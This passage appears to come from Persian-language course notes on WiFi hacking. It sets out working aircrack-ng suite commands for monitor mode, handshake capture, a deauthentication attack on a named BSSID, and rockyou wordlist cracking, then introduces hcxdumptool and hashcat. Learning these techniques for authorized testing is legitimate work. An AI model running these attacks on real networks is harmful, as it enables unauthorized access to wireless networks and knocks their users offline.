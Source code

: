 	3. حال Handshake که Capture شده است و در فایل `pass.*cap` قرار دارد را میتوانیم کرک کنیم تا پسورد شبکه وایرلسی را بدست بیاوریم.
5. *Cracking `pass.*cap` with 2 Attack* کرک پسورد در دو روش(حمله)
	0. اگر Wordlist Rockyou اماده نبود، باید آنرا ابتدا از حالت فشرده خارج کنیم.
		1. `locate rockyou` & `gunzip /usr/share/wordlists/rockyou.txt.gz`
			1. ![[Pasted image 20240705215306.png]]
	1. *Attack 1*
		1. `aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C0:F6:C2:5E:8D:20 pass*.cap`
			1. ![[Pasted image 20240705215645.png]]
	2. *Attack 2*
		1. `aircrack-ng pass.*cap -w /usr/share/wordlists/rockyou.txt`
	3. به محض اجرای هر کدام یک از این حملات ابزار شروع به کرک Handshake به همراه Wordlist معرفی شده میکند.
		1. ![[vlc_z3mQtNO5nw.gif]]
6. Cracking Successfully done and we can see Target Password in terminal
	1. ![[Pasted image 20240705215941.png]]
##### Attack Scripts
```sh Terminal-1 => Go wlan on Monitoring Mode & Capture Handshak
iwconfig

sudo airmon-ng start wlan0
#if wlan use process you should kill them
sudo kill 1303 && sudo kill 1833
iwconfig #Now waln0 change to wlan0mon

sudo airodump-ng wlan0mon #dump all wifi traffic to get target wifi channel and bssid
"Now we can Dumping Target SSID Traffics to capture Handshake"
sudo airodump-ng -c 6 --bssid C0:F6:C2:5E:8D:20 -w pass wlan0mon
```
-----
```sh Terminal-2 => Deauthentication Attack to capture Handshake
sudo aireplay-ng -0 100 -a C0:F6:C2:5E:8D:20 wlan0mon #Deauthentication Attack and airodump-ng Captured handshake in terminal-1
"After Attack go to Terminal-1 and Make sure the WPA-Handshake to be Captured, then go to next terminal for Cracking pass*.cap"
```
---
```sh Cracking Password
#Cracking Password - Attack 1
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C0:F6:C2:5E:8D:20 pass.*cap
#Cracking Password - Attack 2
sudo aircrack-ng -w /usr/share/wordlists/rockyou.tx pass.*cap
```
### 1. Capturing Handshakes with `Hcxdumptool` - E39
#### Definition & Instruction
##### Definitions
*در روش دوم Wifi Hacking، عملیات Hacking را باید در سه فاز و مرحله انجام دهیم:*
1. ابتدا باید Handshake های SSID های اطراف، و یا SSID تارگت را Capture کنیم.
	1. `hcxdumptool`
2. سپس باید فایل Capture شده را از فرمت `cap.` و یا `pcapng.` به فرمتی(`hc22000.`) تبدیل کنیم، که بتوانیم آنرا با Hashcat کرک کنیم.
	1. `hcxpcapngtool`
	2. Online Tool `cap2hashcat` https://hashcat.net/cap2hashcat/
3. در آخر هم باید فایل Convert شده را بوسیله Hashcat کرک کنیم.
	1. `hashcat`
در این جلسه میخواهیم قدم اول را انجام دهیم، یعنی بوسیله ابزار `Hcxdumptool` به *Capturing* پکت های Handshake بپردازیم. 
پس از آن میخواهیم تفاوت کرک Handshake بوسیله Hashcat که از GPU برای کرک استفاده میکند را با کرک معمولی بوسیله Aircrack-ng را بررسی کنیم.
	![[Pasted image 20240706191943.png]]
- **Capturing Handshake**: